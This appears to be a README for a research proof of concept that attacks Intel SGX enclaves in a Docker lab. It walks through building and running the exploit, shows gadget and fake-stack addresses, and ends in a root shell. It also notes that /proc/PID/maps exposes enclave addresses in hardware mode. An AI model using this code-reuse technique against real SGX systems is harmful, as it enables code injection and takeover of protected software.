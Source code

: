 # How to create docker container
```
sudo ./up.sh
```
# How to destroy docker container
```
sudo ./down.sh
```
# How to enter the docker container
```
sudo docker exec -it sgx16_test_1 /bin/bash
```
## Once inside docker
```
root@...:/home/linuxsgx#  source /opt/intel/sgxsdk/environment
root@...:/home/linuxsgx# cd GuardsDilemma
root@...:/home/linuxsgx/GuardsDilemma# make
root@...:/home/linuxsgx/GuardsDilemma# ./app
```

## After execution you will probably see

```
[build_secs /home/linuxsgx/linux-sgx/psw/urts/loader.cpp:385] enclave start address = 0x7f8fdbac4000, size = 800000
[__create_enclave /home/linuxsgx/linux-sgx/psw/urts/urts_com.h:167] add tcs 0x7f8fdbe57000
[__create_enclave /home/linuxsgx/linux-sgx/psw/urts/urts_com.h:167] add tcs 0x7f8fdbe9e000
[__create_enclave /home/linuxsgx/linux-sgx/psw/urts/urts_com.h:167] add tcs 0x7f8fdbee5000
[__create_enclave /home/linuxsgx/linux-sgx/psw/urts/urts_com.h:167] add tcs 0x7f8fdbf2c000
[__create_enclave /home/linuxsgx/linux-sgx/psw/urts/urts_com.h:167] add tcs 0x7f8fdbf73000
[__create_enclave /home/linuxsgx/linux-sgx/psw/urts/urts_com.h:167] add tcs 0x7f8fdbfba000
[__create_enclave /home/linuxsgx/linux-sgx/psw/urts/urts_com.h:167] add tcs 0x7f8fdc001000
[__create_enclave /home/linuxsgx/linux-sgx/psw/urts/urts_com.h:167] add tcs 0x7f8fdc048000
[__create_enclave /home/linuxsgx/linux-sgx/psw/urts/urts_com.h:167] add tcs 0x7f8fdc08f000
[__create_enclave /home/linuxsgx/linux-sgx/psw/urts/urts_com.h:167] add tcs 0x7f8fdc0d6000
[set_extra_debug_info /home/linuxsgx/linux-sgx/psw/urts/enclave.cpp:269] Symbol 'g_peak_heap_used' is not found
[__create_enclave /home/linuxsgx/linux-sgx/psw/urts/urts_com.h:194] Debug enclave. Checking if VTune is profiling
[__create_enclave /home/linuxsgx/linux-sgx/psw/urts/urts_com.h:235] VTune is not profiling. Debug OPTIN bit not set and API to do module mapping not invoked
[read_cpusvn_file ../cpusvn_util.cpp:96] Couldn't find/open the configuration file /root/.cpusvn.conf.
Checksum(0x0x7ffd125f3660, 100) = 0xfffd4143
Info: executing thread synchronization, please wait...  
Give me the base address: 
```
There is more output on top but for convinence it was cut. The first line above show enclave start address = 0x7f8fdbac4000. This is the base address of the enclave. Similar attacks like SnakeGX (which was used to actually understand how the attack is done) use /proc/(PID)/maps and search for isgx (for recent version of SGX driver the name has changed) to get the enclave start address. This is done in HW mode but in SIM mode it is give like we see here.

So we give the enclave address:
```
Give me the base address: 0x7f8fdbac4000
Received: 7f8fdbac4000
asm_oret: 7f8fdbaccc27
continue_execution: 7f8fdbacccfe
writeGadget: 7f8fdbaccce5
fakeStack: 7ffd125f37b0
ctx: 7ffd125f3ad0
mov 7ffd125f3700, $rdi
call 7f8fdbacccfe
# whoami
root
```
Now at the end we get the shell indicating we have succeeded injecting code and executing code using sgx sdk functions. 

## dont forget to close the docker container
sudo ./down.sh